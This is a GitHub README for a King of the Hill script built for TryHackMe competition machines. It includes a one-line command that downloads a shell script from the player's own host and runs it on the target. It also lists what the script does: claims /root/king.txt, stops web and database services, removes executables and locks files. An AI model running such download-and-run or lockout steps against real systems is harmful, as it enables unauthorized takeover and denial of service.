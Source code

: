 # The KOTH Script

<p align="center">
  <img src="king.png" alt="King">
</p>


**NOTE: Respect TryHackMe Rules**.

**The KOTH Script is intended for recreational purposes within authorized environments, such as private games. Always adhere to the rules and guidelines provided by TryHackMe or any other platform you are using. The creator of this script is not responsible for any misuse or violation of terms. Use it responsibly and ethically.**

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the `/root/king.txt` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Clone the repository:
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Change to the KOTH-Scripts directory:
       
       cd KOTH-Script 

3. Start a Python HTTP server on port 80:
  
       python3 -m http.server 80  

4. On the KOTH machine, execute the KOTH.sh script:
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

5. Enter your desired nickname when prompted.

6. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the `/root/king.txt` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script.The KOTH script relies on the server to retrieve and run the check & chattr & guardian scripts.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.

## Note
Please comment out the lines that include "chattr -i" and "chattr +i" when you want to run the script on "Production" game.
